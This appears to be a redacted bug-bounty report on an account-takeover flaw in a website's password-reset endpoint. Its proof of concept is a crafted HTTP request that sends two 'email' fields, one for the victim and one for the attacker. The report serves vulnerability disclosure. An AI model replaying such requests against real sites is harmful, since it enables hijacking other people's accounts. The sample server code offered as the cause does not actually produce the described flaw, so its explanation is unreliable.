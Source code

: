 ## Summary:
I found a way to change the password of a ███████ Forgot Passkey account via the password reset form and successfully retrieve the final reset link without user interactions, using just its email address. A critical vulnerability has been discovered in the password reset mechanism of ███████ `https://www.███████.co/forgot`, allowing an attacker to take over an account without requiring interaction from the legitimate user. The flaw resides in the authentication process where multiple email parameters can be submitted, leading to unauthorized access.


## Proof of Concept (PoC) - Steps to Reproduce
[add details for how we can reproduce the issue]

 - Go to the Password Reset Page Navigate to https://www.███████.co/forgot.
 - Intercept the Request Use an HTTP interceptor tool such as Burp Suite or Postman to capture the request sent to the password reset API.
 - Modify the HTTP Request Send a crafted request with two email fields, targeting the victim's email while using the attacker's email as a secondary parameter.

The captured request here’s the Vulnerable HTTP request intercepted using Burp Suite:
```
POST /api/auth/signin/email HTTP/2
Host: www.███████.co
Content-Type: application/json;charset=UTF-8

{
   "email":"victim@gmail.com",
   "email":"attacker@example.com",
   "callbackUrl":"/redirect",
   "redirect":"false",
   "csrfToken":"d960ca3082ee393e55bb5a27bf60771528c99bd13a3332b5a97fba2f03248af4",
   "json":"true"
}
```
- The CSRF `token` remains unchanged for multiple requests.

This report highlights a critical Account Takeover vulnerability present in ███████’s password reset mechanism. The ability to exploit multiple email parameters in a password reset request poses severe security threats. Immediate fixes and additional security layers are recommended to mitigate the risks and protect user data. Below is a possible vulnerable implementation of the password reset logic on the server:
```js
app.post('/api/auth/signin/email', async (req, res) => {
    try {
        const { email } = req.body;
        if (!email) {
            return res.status(400).json({ message: "Email is required" });
        }
        
        // Fetch user details
        const user = await db.users.findOne({ email: email });
        if (!user) {
            return res.status(404).json({ message: "User not found" });
        }
        
        // Generate reset token
        const resetToken = generateResetToken(user.id);
        
        // Send email (Issue: Email parameter is not properly validated, attacker can inject an extra email field)
        sendResetEmail(email, resetToken);
        
        return res.status(200).json({ message: "Reset email sent" });
    } catch (error) {
        return res.status(500).json({ message: "Internal Server Error" });
    }
});
```
{F4119495}

## Supporting Exploit Explanation/References:
- The function extracts `email` from `req.body`, but does not check for multiple occurrences.
- The last occurrence of `email` is processed, allowing attackers to replace the intended recipient.
- No verification (e.g., requiring the user to confirm via a separate session) is enforced before sending the reset link.


  * reference's #2293343
  * https://owasp.org/www-project-top-ten/
  * https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html

## Impact

By just knowing the victim email address used on ███████ , you can takeover his account by changing his password without user interaction since the attacker get the same email as the victim.
